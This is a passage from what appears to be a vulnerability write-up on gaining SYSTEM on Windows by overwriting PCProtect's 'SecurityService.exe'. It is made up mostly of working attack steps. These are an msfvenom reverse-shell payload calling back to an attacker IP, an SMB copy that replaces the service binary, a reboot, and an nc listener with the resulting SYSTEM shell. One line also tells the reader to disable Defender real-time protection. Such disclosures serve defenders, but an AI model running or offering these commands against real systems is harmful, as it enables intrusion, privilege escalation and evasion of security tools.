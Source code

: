 ```powershell
PS C:\Users\user> whoami
desktop-bn\user

PS C:\Users\user> whoami /groups | findstr /i 'Administrators'
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
```

Since we are part of the Administrators group, we can exploit this by replacing "SecurityService.exe" with our preferred payload or implant and wait for execution upon reboot.

For this demonstration, I will use an msfvenom-generated payload.

```shell
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.130 LPORT=443 -f exe -o reverse.exe
```

> Note: In the real-world you would replace it with an implant or an encrypted payload of a C2.

We'll create a backup of the original service executable/binary:

```powershell
copy "C:\Program Files (x86)\PCProtect\SecurityService.exe" "C:\Program Files (x86)\PCProtect\SecurityService-Backup.exe"
```

Now we're gonna transfer the payload through the SMB protocol:

```powershell
copy \\192.168.119.130\share\reverse.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```

> Note: Make sure to disable the Microsoft Defender Real-Time Protection or any other real time scanner.

The executable should run upon system restart, specifically when the system reaches the logon window (the screen where the user signs in). At this point, we should receive the reverse shell:

```powershell
PS C:\Users\user> shutdown /r /t 0
```

As expected we escalated our privileges from a default user to `NT AUTHORITY\SYSTEM`:

```shell
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.119.130] from (UNKNOWN) [192.168.119.129] 49670
Microsoft Windows [Version 10.0.22000.493]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
whoami /all

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
```